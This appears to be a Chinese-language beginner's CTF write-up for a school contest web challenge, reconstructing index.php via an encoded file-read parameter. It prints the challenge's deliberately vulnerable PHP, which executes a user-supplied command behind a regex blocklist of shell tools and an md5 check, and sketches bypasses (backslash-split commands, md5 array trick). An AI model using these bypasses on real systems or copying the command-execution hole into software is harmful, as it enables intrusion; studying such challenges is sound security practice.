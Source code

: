 ```yaml
---
title: 比赛wp
date: 2024-06-11
categories:
  - 学习笔记
tags:
  - 初学者
  - 日记
---
```




##  校内赛

- 安杯2019--easyweb

  看到这个链接我就觉得有猫病，url后面跟着这么奇怪的数据

  ```
  pVek5yTENbVUzTVRabE5gVz
  ```

  起手就是一个base64解码：MzUzNTM1MmU3MDZlNjc=，还得二次64解码得到3535352e706e67，看起来是16进制555.png
  
  我是觉得作用就是将对象包含并进行转16进制再base64编码后输出，那我想要源码了，咋办？？？
  包index.php
  
  ```
  index.php
  696e6465782e706870
  Njk2ZTY0NjU3ODJlNzA2ODcwCg==
  TmprMlpUWTBOalUzT0RKbE56QTJPRGN3
  ```
  
  放入img参数进行上传得到base64，直接解码得到
  
  ```
  <?php
  error_reporting(E_ALL || ~ E_NOTICE);
  header('content-type:text/html;charset=utf-8');
  $cmd = $_GET['cmd'];
  if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
      header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
  $file = hex2bin(base64_decode(base64_decode($_GET['img'])));
  
  $file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
  if (preg_match("/flag/i", $file)) {
      echo '<img src ="./ctf3.jpeg">';
      die("xixi～ no flag");
  } else {
      $txt = base64_encode(file_get_contents($file));
      echo "<img src='data:image/gif;base64," . $txt . "'></img>";
      echo "<br>";
  }
  echo $cmd;
  echo "<br>";
  if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|'|"|`|;|,|*|?|\|\\|n|t|r|xA0|{|}|(|)|&[^d]|@|||\$|[|]|{|}|(|)|-|<|>/i", $cmd)) {
      echo("forbid ~");
      echo "<br>";
  } else {
      if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
          echo `$cmd`;
      } else {
          echo ("md5 is funny ~");
      }
  }
  
  ?>
  <html>
  <style>
    body{
     background:url(./bj.png)  no-repeat center center;
     background-size:cover;
     background-attachment:fixed;
     background-color:#CCCCCC;
  }
  </style>
  <body>
  </body>
  </html>
  ```
  
  我是菜鸡，到这里看不太懂，但是觉得这重要
  
  ```
  if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|'|"|`|;|,|*|?|\|\\|n|t|r|xA0|{|}|(|)|&[^d]|@|||\$|[|]|{|}|(|)|-|<|>/i", $cmd)) {     //跟这里匹配到了就会结束代码，所以需要绕过
      echo("forbid ~");
      echo "<br>";
  } else {
      if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {    //a和b的内容不一样但是需要md5值一样
          echo `$cmd`;          //将cmd当成系统命令执行并输出
      } else {
          echo ("md5 is funny ~");
      }
  }
  ```
  
  还得绕或preg_match，使用`\`绕过，因为在liunx下，l\s等于ls
  然后md5的话我实验数组绕过，这个csdn一堆
  接下来就是ls和cat了，相信大佬都会了